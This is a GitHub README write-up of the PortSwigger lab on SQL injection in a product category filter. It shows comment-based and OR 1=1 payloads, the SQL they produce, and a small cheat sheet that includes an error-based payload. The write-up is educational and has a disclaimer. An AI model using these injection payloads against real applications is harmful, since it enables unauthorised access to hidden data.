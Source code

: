 
<h1 align="center">🧠 PortSwigger SQL Injection Lab-1</h1>

<p align="center">
  <b>🔍 Retrieving Hidden Data via SQL Injection</b><br>
  <i>Lab: SQL Injection vulnerability in product category filter</i>
</p>

<p align="center">
  <img src="https://img.shields.io/badge/focus-SQL%20Injection-red?style=flat-square">
  <img src="https://img.shields.io/badge/lab-type-Injection-blue?style=flat-square">
  <img src="https://img.shields.io/badge/goal-Display%20Unreleased%20Products-green?style=flat-square">
</p>

---

## 🧠 Lab Context

> This lab contains a SQL injection vulnerability in the product category filter. The application constructs a SQL query like:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

Your goal is to perform a SQLi attack and **display unreleased products**.

---

## 🎯 Goal

✅ **Exploit SQL Injection to bypass filter and display unreleased products.**

---

## 🛠️ Basic Injection Strategy

When selecting a category, the app builds the query dynamically without sanitization:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

You can inject a comment to nullify the second condition:

```http
https://insecure-website.com/products?category=Gifts'--
```

🔎 This results in:

```sql
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

- `--` comments out the rest of the query.
- Now, **all products in 'Gifts'**, released or not, are shown.

---

## 🧪 Test: All Categories (OR Based)

Injecting logic always true to access everything:

```http
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```

Resulting SQL:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

- `1=1` is always true → All products from all categories shown.

⚠️ **Warning**: Be cautious with `OR 1=1`. It can impact `UPDATE` or `DELETE` operations if reused elsewhere in code.

---

## 🧩 Injection Cheat Sheet

| Injection Type | Payload | Effect |
|----------------|---------|--------|
| Comment | `'--` | Comments out the rest |
| Boolean OR | `' OR 1=1--` | Always true condition |
| Error-Based | `' AND 1=CAST((CHR(113)||CHR(107)||CHR(112)||CHR(107)||CHR(113))||(SELECT (CASE WHEN (1=1) THEN 1 ELSE 0 END))::text||CHR(113)||CHR(122)||CHR(120)||CHR(113)||CHR(113) AS NUMERIC)--` | Can cause errors and leak info |

---

## 📚 Learning Takeaways

- SQL comments can terminate rest of a query.
- Boolean logic can bypass conditions.
- Always validate and sanitize user input.

---

## 🚨 Disclaimer

> ⚠️ For **educational purposes only**. Do **not** perform SQLi on systems you don't own or have explicit permission to test.

---

## 🧑‍💻 Author

Built with ❤️ by [PardhuVarma](https://linkedin.com/in/pardhu-sri-rushi-varma-konduru-696886279)

<p align="center">
  <img src="https://img.shields.io/badge/status-Lab%20Completed-darkgreen?style=for-the-badge">
</p>
